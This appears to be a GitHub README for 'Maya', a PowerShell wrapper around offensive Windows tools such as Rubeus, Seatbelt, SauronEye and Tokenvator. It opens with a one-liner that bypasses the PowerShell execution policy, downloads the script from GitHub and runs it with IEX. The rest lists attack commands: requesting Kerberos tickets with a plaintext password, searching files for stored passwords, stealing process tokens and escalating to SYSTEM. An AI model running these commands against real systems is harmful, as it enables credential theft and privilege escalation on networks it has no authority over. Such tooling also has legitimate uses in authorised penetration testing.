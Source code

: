 # Maya
Non-PowerShell based tools wrapped in PowerShell!

Import-Module ./Maya.ps1

Maya

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMdGiri/Maya/main/Maya.ps1'))

###################################

Follow the on screen instructions:
e.g.

Maya -Rubeus -Command "klist"

Maya -Rubeus -Command "asktgt /user:MNDC /password:ComputerPassword /domain:mitnick.in /dc:MNDC.mitnick.in /nowrap"

Maya -Seatbelt -Command "-group=user"

Maya -grouper2 -Command "-Path c:\Temp\gporeport.xml"

Maya -SauronEye -Command "--filetypes .xml .txt .doc .docx .xls .ps1 --keywords pass"

Maya -Tokenvator

Maya -Tokenvator -Command "Sample_Processes"

Maya -Tokenvator -Command "Steal_Token 1156 cmd.exe"

Maya -Tokenvator -Command "GetSystem"

Maya -Tokenvator -Command "WhoAmI"

Maya -Tokenvator -Command "info"

Maya -Rubeus -Command "klist"

Get-GPOReport -All -ReportType XML -Path "c:\Temp\gporeport.xml"

Then,
Maya -grouper2 -Command "-Path c:\Temp\gporeport.xml"
